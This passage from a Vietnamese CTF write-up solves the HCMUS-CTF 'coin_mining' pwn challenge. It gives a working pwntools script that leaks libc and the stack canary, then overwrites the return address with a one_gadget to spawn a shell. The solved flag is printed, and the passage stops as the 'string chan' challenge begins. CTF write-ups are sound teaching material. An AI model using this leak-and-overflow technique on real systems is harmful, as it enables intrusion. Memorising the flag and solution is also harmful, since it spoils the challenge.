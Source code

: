 Ở đây mình dùng địa chỉ đầu tiên phát ăn ngay.

Tiếp theo viết script, ở đây ta gdb tính offset như bình thường
Script:
```python
from pwn import *
exe = ELF("coin_mining_patched")
libc = ELF("libc.so.6")
p = process(exe.path)

p.sendline(b'1')
payload = b'a'*103
p.sendline(payload)
p.recvuntil(b'a'*103+b'\n')
libc_leak = p.recvn(6) + b'\x00\x00'
libc_leak = u64(libc_leak)
libc.address = libc_leak-275593
print('LIBC LEAK : ',hex(libc_leak))
print('LIBC BASE : ',hex(libc.address))
payload = b'a'*136
p.sendline(payload)
p.recvuntil(b'a'*136+b'\n')
cana_leak= u64(b'\x00'+ p.recvn(7))

print('CANA LEAK : ',hex(cana_leak))

payload = b'notHMCUS-CTF{a_coin_must_be_here}\n\x00'+ b'a'*101 + p64(cana_leak) + b'a'*8 +p64(libc.address+0x4f2c5)
p.sendline(payload)
print(len(payload))
p.interactive()
```
Flag: `HCMUS-CTF{gA1n_coin_everyday_better_c01n_better_he4th}`
### string chan
Đề cho ta 1 file binary
Đầu tiên ta `checksec` 

![upload_b13f78230b2fe478eade0b67ea22dcc9.png (1045×220) (hackmd-prod-images.s3-ap-northeast-1.amazonaws.com)](./assets/upload_b13f78230b2fe478eade0b67ea22dcc9.png)

Tiếp theo vào ida xem thử
